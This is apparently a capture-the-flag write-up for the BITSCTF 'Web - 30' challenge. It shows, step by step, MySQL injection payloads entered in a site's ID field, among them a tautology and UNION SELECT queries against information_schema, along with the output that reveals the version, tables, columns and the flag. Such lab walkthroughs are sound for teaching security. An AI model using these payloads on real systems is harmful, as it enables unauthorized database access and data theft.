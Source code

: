 Web - 30

First we have to know if the site is vulnerable to SQL Injection and if the database is PostgreSQL, MySQL etc.
Inserting admin' on the ID field, we get the message "You have an error in your SQL syntax; check the manual 
that corresponds to your MySQL server version for the right syntax to use near ''admin'' Limit 1' at line 1".

Using the SQL Injection ' OR '1' = 1#' on the ID field of the site, we get

First name:Harry
Surname: Potter

First name:Hermione
Surname: Granger

First name:Ronald
Surname: Weasley

First name:Joker
Surname: Joker

Now we know that we have two columns. We can discover the DB version inserting the command 'UNION ALL SELECT @@version,2#

First name:5.5.54-0+deb8u1
Surname: 2

Current database name: ' UNION ALL SELECT database(),2#' : hack

Now we can discover the table names of the 'hack' database:

' UNION ALL SELECT table_schema, table_name FROM information_schema.columns WHERE table_schema = 'hack'#'

First name:hack
Surname: CIA_Official_Records

First name:hack
Surname: CIA_Official_Records

First name:hack
Surname: CIA_Official_Records

First name:hack
Surname: CIA_Official_Records

First name:hack
Surname: Joker

First name:hack
Surname: Joker

To get the column names of the Joker table, we insert on the ID field
' UNION ALL SELECT column_name, table_name FROM information_schema.columns WHERE table_name = 'Joker'#'

First name:Flag
Surname: Joker

First name:HaHaHa
Surname: Joker

And finally we can find the flag now, inserting 
' UNION ALL SELECT Flag, HaHaHa FROM Joker#'

First name:BITSCTF{wh4t_d03snt_k1ll_y0u_s1mply_m4k3s_y0u_str4ng3r!}
Surname: Enjoying the game Batman!!!
